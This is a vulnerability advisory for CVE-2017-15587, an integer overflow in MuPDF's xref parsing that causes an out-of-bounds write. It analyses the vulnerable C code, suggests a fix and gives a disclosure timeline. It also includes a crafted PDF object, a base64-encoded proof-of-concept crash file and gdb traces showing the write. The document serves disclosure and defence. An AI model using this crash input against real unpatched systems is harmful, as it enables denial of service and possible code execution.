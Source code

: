 ```yaml
---
title: "MuPDF mutools Out-of-Bounds Write Vulnerability (CVE-2017-15587)"
header:
  overlay_image: /assets/images/cve-2017-15587/header.jpg
  overlay_filter: 0.2
  caption: "Photo credit: Life is Strange Stills by Me"
tags:
  - vulnresearch
  - mupdf
  - integeroverflow
  - outofboundswrite
---
```


A vulnerability in mutools PDF parsing functionality allows an attacker to write
controlled data to an arbitrary location in memory due to an integer overflow
when performing truncated xref checks.

On 64 bit builds, the extent of this bug is most likely a denial-of-service
while on 32 bit builds, the bug can possibly be leveraged to gain arbitrary code
execution.

## Affected Versions

The current release (1.11) is affected. Further analysis is required to
determine which versions are also affected by the vulnerability.

## Vulnerability Scores

Classification: CWE-787: Out-of-Bounds Write
CVSSv3: 7.3 (AV:L/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:H)

## Description

The vulnerable lines of code are present in the file `source/pdf/pdf-xref.c`.
They are triggered in the `info`, 'show', 'draw', 'clean', 'extract', 'merge',
'portfolio', 'poster', and 'pages' functions of `mutool`.

The attached minimised crashing sample includes the following object that
triggers the vulnerable code path.

```
obj<</[]/Index[2147483647 1]/ 0 0 R/ 0/Size 0/W[]>>stream
```

The issue stems from how the "/Index" entry is parsed and processed. The
"/Index" entry is an array containing pairs of integers that denote the first
object number in the subsection and the number of entries in the subsection.

In the function `pdf_read_new_xref`, the pairs of integers are read and
processed. For each pair of integers, the first number is read as an `int` into
`i0` and the second is read as an `int` into `i1`. The two values are passed
into the `pdf_read_new_xref_section` call.

```c
 958 static pdf_obj *
 959 pdf_read_new_xref(fz_context *ctx, pdf_document *doc, pdf_lexbuf *buf)
 960 {
...
1022     int n = pdf_array_len(ctx, index);
1023    for (t = 0; t < n; t += 2)
1024       {
1025        int i0 = pdf_to_int(ctx, pdf_array_get(ctx, index, t + 0));
1026        int i1 = pdf_to_int(ctx, pdf_array_get(ctx, index, t + 1));
1027        pdf_read_new_xref_section(ctx, doc, stm, i0, i1, w0, w1, w2);
1028    }
...
1050 }
```

In the `pdf_read_new_xref_section` function, some sanity checks are performed to
validate the xref structure. First, the two values have to be non-negative.
Second, it checks that the xref stream is not truncated. For the out-of-bounds
write to occur, the truncation check has to be bypassed.

This can be achieved by skipping the loop in line 927 by causing an integer
overflow in the calculation `i0 +i1`. Since the values are of the type `int and
are signed`, adding `2147483647` and `1` causes the calculation to wrap around
resulting in the value of `-2147483648`.

```c
 915 static void
 916 pdf_read_new_xref_section(fz_context *ctx, pdf_document *doc,
                               fz_stream *stm, fz_off_t i0, int i1, int w0,
                               int w1, int w2)
 917 {
...
 921         if (i0 < 0 || i1 < 0)
 922                 fz_throw(ctx, FZ_ERROR_GENERIC,
                              "negative xref stream entry index");
...
 927         for (i = i0; i < i0 + i1; i++)
 928         {
...
 934             if (fz_is_eof(ctx, stm))
 935                fz_throw(ctx, FZ_ERROR_GENERIC, "truncated xref stream");
...
 952         }
...
 955 }
```

Later on in the execution, the `ensure_solid_xref` function is called to merge
xref subsections. The field `sub->start` contains the value of `i0` and the
field `sub->len` contains the value in `i1`. `new_sub->table` holds an address
in the heap. In the above example on a 64 bit build, the assignment will resolve
to `new_sub->table[0x7fffffff] = sub->table[0];`. The type of `new_sub->table`
is `pdf_xref_entry` which is of size 0x20 which means that the dereference
happens in multiples of 0x20. This causes the out-of-bounds write.

```c
 162 /* Ensure that the given xref has a single subsection
 163  * that covers the entire range. */
 164 static void
 165 ensure_solid_xref(fz_context *ctx, pdf_document *doc, int num, int which)
 166 {
...
 199                 for (i = 0; i < sub->len; i++)
 200                 {
 201                         new_sub->table[i+sub->start] = sub->table[i];
 202                 }
...
 211 }
```

Due to the nature of constraints, `i1` is bounded by the amount of memory
possible to be allocated by `calloc`. Thus, `i0` is restricted to a very large
number.

On a 64 bit build, this would most likely cause a crash since the write will
land in unaddressable memory. On a 32 bit build, the integer wrap around can be
leveraged again to put the write in valid addressable regions and possibly
achieve arbitrary code execution or cause other unspecified impact.

## Mitigation

A quick fix for the issue would be to include a check for the integer overflow
in `pdf_read_new_xref_section`. Further analysis is required to identify
systemic issues resulting from the unsafe use of signed integers before
suggesting a robust fix.

## Proof of Concept

The file `crash.pdf` is included here as a base64 encoded file.

```
JVBERi0wMDAwMDAgMCBvYmo8PC9bXS9JbmRleFsyMTQ3NDgzNjQ3IDFdLyAwIDAgUi8gMC9TaXpl
IDAvV1tdPj5zdHJlYW0Nc3RhcnR4cmVmMTAK
```

On a 64 bit build of mupdf, the program crashes on the abovementioned write.

```shell
$ gdb ./mutool
(gdb) r info manipulate.pdf
Starting program: /vagrant/projects/mupdf/mutool info manipulate.pdf
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
manipulate.pdf:
warning: line feed missing after stream begin marker (0 0 R)

Program received signal SIGSEGV, Segmentation fault.
0x00000000004b9ec6 in ensure_solid_xref (ctx=0x2962010, doc=0x2972ba0, num=1,
                      which=0) at source/pdf/pdf-xref.c:201
201                new_sub->table[i+sub->start] = sub->table[i];
(gdb) p *sub
$1 = {next = 0x0, len = 1, start = 2147483647, table = 0x29850d0}
(gdb) p *new_sub
$2 = {next = 0x0, len = 1, start = 0, table = 0x2985120}
(gdb) x/i $rip
=> 0x4b9ec6 <ensure_solid_xref+433>:    mov    %rcx,(%rax)
(gdb) info reg rax rcx
rax            0x1002985100    68763013376
rcx            0x0    0
```

Whereas on a 32 bit build, the write address wraps around into a valid heap
memory region and the out-of-bounds write succeeds.

```shell
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /vagrant/projects/mupdf/mutool-32 info manipulate.pdf
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
manipulate.pdf:
warning: line feed missing after stream begin marker (0 0 R)

Breakpoint 1, ensure_solid_xref (ctx=0xa32a008, doc=0xa336948, num=1, which=0)
              at source/pdf/pdf-xref.c:201
201                new_sub->table[i+sub->start] = sub->table[i];
(gdb) p *sub
$1 = {next = 0x0, len = 1, start = 2147483647, table = 0xa348c60}
(gdb) p *new_sub
$2 = {next = 0x0, len = 1, start = 0, table = 0xa348c98}
(gdb) info reg eax ecx
eax            0x1    1
ecx            0xa32a40c    171090956
(gdb) x/xw 0xa32a40c
0xa32a40c:    0x00000000
(gdb) c
Program received signal SIGSEGV, Segmentation fault.
0x080e6a21 in pdf_read_new_xref (ctx=0xa32a008, doc=0xa336948, buf=0xa336a20)
              at source/pdf/pdf-xref.c:1031
1031            entry->ofs = ofs;
(gdb)
```

## Credit

This issue was discovered by Terry Chia (@ayrx) and Jeremy Heng (@nn\_amon).

## Timeline

* 28 Sept 2017 - Discovery of the vulnerability.
* 28 Sept 2017 - [Disclosure](https://bugs.ghostscript.com/show_bug.cgi?id=698605)
  of vulnerability to the vendor and to Debian Security Team.
* 16 Oct 2017 - Vendor fixes the issue in [git
  commit](http://git.ghostscript.com/?p=mupdf.git;h=82df2631d7d0446b206ea6b434ea609b6c28b0e8).
* 18 Oct 2017 - CVE-2017-15587 assigned to the issue.
* 18 Oct 2017 - Publication of the vulnerability details.
